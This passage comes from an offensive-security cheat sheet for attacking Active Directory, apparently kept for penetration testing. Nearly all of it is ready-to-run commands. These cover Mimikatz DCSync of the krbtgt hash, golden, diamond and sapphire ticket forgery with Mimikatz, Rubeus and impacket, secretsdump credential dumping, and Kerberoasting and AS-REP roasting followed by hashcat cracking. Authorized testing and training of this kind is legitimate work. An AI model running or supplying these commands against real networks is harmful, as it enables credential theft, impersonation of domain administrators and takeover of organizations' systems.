 #### Mimikatz
```mimikatz=
privilege::debug

lsadump::dcsync /user:krbtgt /domain:<domain>

kerberos::golden /krbtgt:<ntlm of krbtgt> /id:500 /sid:<sid> /user:<user to impersonate> /ptt
```

#### Remote
```bash
impacket-secretsdump.py --just-dc-ntlm 'DOMAIN/USER:PASS@TargetIP'
impacket-lookupsid.py 'DOMAIN/USER:PASS@TargetIP'
impacket-ticketer.py -nthashes <ntlm> -domain-sid <domain sid> -domain <user>
```

### Diamond Ticket
```powershell
Get-DomainUser -Properties objectsid -Identity <user>

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<user> /ticketuserid:<user RID> /groups:512
```

### Sapphire Ticket
```bash
impacket-ticketer.py -request -impersonate 'DomainAdmin' -domain 'DOMAIN.LOCAL' -user 'USER' -password 'PASS' -aesKey 'krbtgt/service AES key' -domain-sid <domain sid> 'EVIL USER'
```

## Active Directory Priv Esc
### Kerberoasting
```bash
# save output to script file for later
script -a kerberoast1.txt

# run to get hashes
impacket-GetUserSPNs -request -outputfile kerberoast1.txt -dc-ip DCIP 'DOMAIN.INTERNAL/USER:PASS'

# exit script in multiple ways
exit
^D

# Locally with Rubeus
.\Rubeus.exe kerberoast

# Crack Hashes
hashcat -m 13100 kerberoast1.txt rockyou.txt -o kerberoast1-cracked.txt -r rule.rule --session kerb1
```

### AS-REP Roasting
```bash
# save output to script file for later
script -a asrep1.txt

# run to get hashes without creds and with creds
impacket-GetNPUsers -no-pass DOMAIN.LOCAL/USER -format hashcat

impacket-GetADUsers -dc-ip <dc-ip> 'domain.local/USER:PASS' -all |awk '{print $1}' > domainusers.txt
impacket-GetNPUsers 'DOMAIN.INTERNAL/USER:PASS' -format hashcat -request -usersfile domainusers.txt 

```